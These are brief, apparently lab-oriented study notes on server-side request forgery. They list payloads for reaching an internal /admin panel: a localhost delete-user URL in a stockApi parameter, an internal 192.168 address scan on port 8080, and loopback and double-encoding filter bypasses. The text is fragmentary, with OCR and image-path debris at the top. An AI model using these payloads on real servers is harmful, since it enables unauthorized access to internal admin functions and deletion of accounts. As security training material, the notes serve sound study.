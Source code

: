ssrf - /admin
search for
-http://$domain - http://subdomain.$domain - https
-http://192.168 - https
-http://127 - https
1)search stockApi=http://localhost/admin/delete?username=carlos
2)http://192.168.§0§.§1§:8080/admin
3)http://127.0.0.1/ - http://127.1/ - http://127.1/admin - http://127.1/%2561dmin
